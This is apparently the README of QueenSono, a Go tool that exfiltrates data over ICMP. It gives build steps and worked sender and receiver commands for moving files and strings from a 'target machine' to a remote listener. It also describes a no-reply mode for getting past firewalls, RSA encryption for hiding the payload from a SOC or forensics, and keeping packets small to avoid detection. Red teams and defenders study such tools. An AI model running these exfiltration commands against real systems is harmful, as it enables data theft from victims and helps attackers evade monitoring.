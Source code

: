 


  <h1 align="center">QueenSono <i> ICMP Data Exfiltration </i></h1>
<h4 align="center"> A Golang Package for Data Exfiltration with ICMP protocol. </h4>
  <p align="center">
  QueenSono tool only relies on the fact that ICMP protocol isn't monitored. It is quite common. It could also been used within a system with basic ICMP inspection (ie. frequency and content length watcher) or to bypass authentication step with captive portal (used by many public Wi-Fi to authenticate users after connecting to the Wi-Fi e.g Airport Wi-Fi). Try to imitate <a href="https://github.com/ytisf/PyExfil">PyExfil</a> (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be useful)
    <br />
    <br>
    <strong>
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#install">Install it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#usage">Use it</a>
    ·
    <a href="https://github.com/ariary/QueenSono/blob/main/README.md#notes">Notes</a>
    ·
    <a href="https://github.com/ariary/QueenSono/issues">Request Feature</a>
  </strong>
  </p>
</p>

## Install
 *\> Install the binary from source*
 
Clone the repo and download the dependencies locally:
```    
git clone https://github.com/ariary/QueenSono.git
make before.build
```

 To build the ICMP packet sender `qssender` :

     build.queensono-sender
    

 To build the ICMP packet receiver `qsreceiver` :

     build.queensono-receiver

## Usage

`qssender` is the binary which will send ICMP packet  to the listener , so it is the binary you have to transfer on your target machine. 

`qsreceiver` is the listener on your local machine (or wherever you could receive icmp packet)

All commands and flags of the binaries could be found using `--help`

### Example 1: Send with "ACK" 🔙
*\> In this example we want to send a big file and look after echo reply to ackowledge the reception of the packets (ACK).*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono.gif)

On local machine:

    $ qsreceiver receive -l 0.0.0.0 -p -f received_bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-l 0.0.0.0</code>listen on all interfaces for ICMP packet
    </li>
    <li>
      <code>-f received_bible.txt</code> save received data in a file
    </li>
    <li><code>-p</code> show a progress bar of received data </li>

</details>


On target machine:

    $ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt #download a huge file (for the example)
    $ qssender send file -d 2 -l 127.0.0.1 -r 10.0.0.92 -s 50000 bible.txt

<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>send file</code> for sending file (<code>bible.txt</code> is the file in question)
    </li>
    <li>
      <code>-d 2</code> send a packet each 2 seconds
    </li>
    <li><code>-l 127.0.0.1</code> the listening address for <i>echo reply</i> </li>
    <li><code>-r 10.0.0.92</code> the address of my remote machine with <code>qsreceiver</code> listening</li>
    <li><code>-s 50000</code> the data size I want to send in each packet</li>
</details>


### Example 2: Send without "ACK" 🙈
*\> In this example we want to send a message without waiting for echo reply (it could be useful in  case the target firewall filters incoming icmp packet)*

![demo](https://github.com/ariary/QueenSono/blob/main/img/qssono-trunc.gif?raw=true)


On local machine:

    $ qsreceiver receive truncated 1 -l 0.0.0.0
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>receive truncated 1</code> does not wait indefinitely if we don't received all the packets. (<code>1</code> is the delay used with <code>qssender</code>)</li>
</details>


On target machine:

    $ qssender send "thisisatest i want to send a string w/o waiting for the echo reply" -d 1 -l 127.0.0.1 -r 10.0.0.190 -s 1 -N
<details>
  <summary><b>Explanation</b></summary>
    <li>
    <code>-N</code> noreply option (don't wait for <i>echo reply</i>)
    </li>
</details>


### Example 3: Send encrypted data 🔒
*\> In this example we want to send an encrypted message. As the command line could be spied on we use asymmetric encryption*

On local machine:

    $ qsreceiver receive -l 0.0.0.0 --encrypt 
    <OUTPUT PUBLIC KEY>
 

<details>
  <summary> <b>Explanation</b></summary>
    <li><code>--encrypt </code> use encryption exchange. It will generate public/private key. The public one will be used by <code>qssender</code> to encrypt data, the private one is used to decrypt it with <code>receiver</code>
</details>


On target machine:

    $ qssender send "don't worry this message was encrypted with the public key. only you could decrypt it" -d 1 -l 127.0.0.1 -r 10.0.0.190 go.mod -s 5 --encrypt <public_key_from_qsreceiver_output>
<details>
  <summary>Explanation</summary>
    <li>
    <code>--encrypt </code> provide key for data encryption. Use the one provided by the <code>qsreceiver</code> command
    </li>
</details>

#### About encryption
RSA encrytion is used to keep data exchanged confidential. It could be useful for example to avoid a SoC to see what data is exchanged (or forensic) w/ basic analysis or simply for privacy.

But it comes with a cost. The choice of asymetric encryption is motivated by the fact that the encryption key is entered on the command line (so it could be retieved easily). Hence, we encrypt data with public key. Like this if someone retrieve the encryption key it will not be possible to decrypt the message. But the public key is smaller than the private one, so it ***encrypt smaller messages***. Also, ***it is computationally expensive***.

Another point, as we want to limit data size/ping request (avoid detection, bug, etc), **use encryption only if needed** ***as the message output-size will (should) always equal the size of the Modulus*** (part of the key) which is big

### Notes
- only work on Linux  (due to the use of golang net icmp package)
- need `cap_net_raw capabilities`

